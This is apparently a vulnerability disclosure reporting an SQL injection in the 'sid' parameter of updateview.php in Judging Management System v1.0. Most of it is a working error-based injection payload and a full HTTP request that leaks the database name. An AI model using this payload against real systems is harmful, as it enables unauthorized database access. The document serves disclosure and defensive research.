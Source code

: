 # Judging Management System v1.0 by oretnom23 has SQL injection

BUG_Author: XZY0193

vendors: https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-jms/updateview.php?sid=

Vulnerability location: /php-jms/updateview.php?sid=, sid

dbname =jms_db

[+] Payload: /php-jms/updateview.php?sid=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> sid

```sql
GET /php-jms/updateview.php?sid=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=f6bhcgo222sk31fnm99nf9tjt1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/206377970-4a51388c-8974-4693-9852-f68a28575698.png)
